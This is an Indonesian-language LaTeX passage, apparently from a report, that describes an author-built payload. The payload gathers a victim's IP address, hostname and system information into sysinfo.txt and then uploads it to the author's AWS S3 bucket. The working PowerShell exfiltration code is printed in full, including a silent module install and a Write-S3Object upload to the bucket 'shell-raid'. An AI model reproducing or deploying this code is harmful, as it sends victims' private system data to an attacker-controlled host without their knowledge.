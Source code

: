 Secara garis besar payload1 ini terbagi menjadi dua task. Task 1 bertugas untuk mengambil data - data pribadi dari perangkat korban seperti ip, hostname, dan systeminfo. Setelah berhasil, script akan mengumpulkan informasi dari perangkat korban dan membuat file sysinfo.txt sebagai output.

\begin{figure}
	\centering
	\includegraphics[width=0.95\textwidth]
		{assets/pics/Sysinfo.png}
	\caption{Contoh Output Sysinfo.txt}
	\label{fig:testGambar}
\end{figure}

\begin{verbatim}
# Upload the file to AWS S3
$bucketName = "shell-raid"
$s3Key = "sysinfo-$(hostname)-$(Get-Date -Format 
'yyyyMMddHHmmss').txt"

# Ensure AWS Tools for PowerShell is installed
if (-not (Get-Command -Name "Write-S3Object" -ErrorAction 
    SilentlyContinue)) {
    Install-Module -Name "AWSPowerShell" -Force -Scope 
    CurrentUser
}

# Upload the file to S3
try {
    Write-S3Object -BucketName $bucketName -Key $s3Key -File 
    $infoFilePath -Region "ap-southeast-2"
    Write-Output "File uploaded successfully to S3: 
    $bucketName/$s3Key"
} catch {
    Write-Output "Failed to upload file to S3. Error: $_"
}
\end{verbatim}

Pada Task 2, script akan mengirimkan sysinfo.txt yang sudah diambil dari perangkat korban ke cloud AWS yang sudah disetup oleh penulis.

